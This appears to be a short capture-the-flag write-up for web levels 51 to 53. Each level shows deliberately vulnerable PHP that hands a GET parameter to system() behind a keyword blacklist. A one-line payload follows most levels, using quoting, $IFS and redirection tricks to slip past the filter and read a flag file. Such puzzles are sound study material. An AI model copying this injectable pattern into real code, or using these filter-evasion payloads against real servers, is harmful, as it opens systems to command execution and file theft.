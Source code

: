 ```php
?c=tac<fla""g.php||
```

## web51

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```php
?c=nl<fla""g.php||
```

## web52

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```php
?c=nl$IFS/fla''g||
```

## web53

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```
